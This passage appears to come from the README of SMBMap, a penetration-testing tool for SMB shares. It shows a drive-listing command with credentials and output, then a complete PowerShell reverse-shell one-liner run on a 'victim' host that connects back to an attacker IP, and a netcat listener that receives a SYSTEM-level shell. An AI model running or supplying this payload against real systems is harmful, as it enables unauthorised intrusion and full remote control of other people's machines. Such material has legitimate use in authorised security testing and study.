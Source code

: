 ## Drive Listing:
This feature was added to complement the file content searching feature

```
$ python smbmap.py -H 192.168.1.24 -u Administrator -p 'R33nisP!nckle' -L
[!] Missing domain...defaulting to WORKGROUP
[+] Finding open SMB ports....
[+] User SMB session established...
[+] IP: 192.168.1.24:445 Name: unknown
[+] Host 192.168.1.24 Local Drives: C:\ D:\
[+] Host 192.168.1.24 Net Drive(s):
    E:      \\vboxsrv\Public      VirtualBox Shared Folders
```

## Nifty Shell:
Run Powershell Script on Victim SMB host (change the IP in the code to your IP addres, i.e where the shell connects back to)
```
$ python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -H 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
[+] Finding open SMB ports....
[+] User SMB session established...
[+] IP: 192.168.2.50:445        Name: unkown
[!] Error encountered, sharing violation, unable to retrieve output
```

## Attackers Netcat Listener:
```
$ nc -l 4445
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
 nt authority\system
```
```

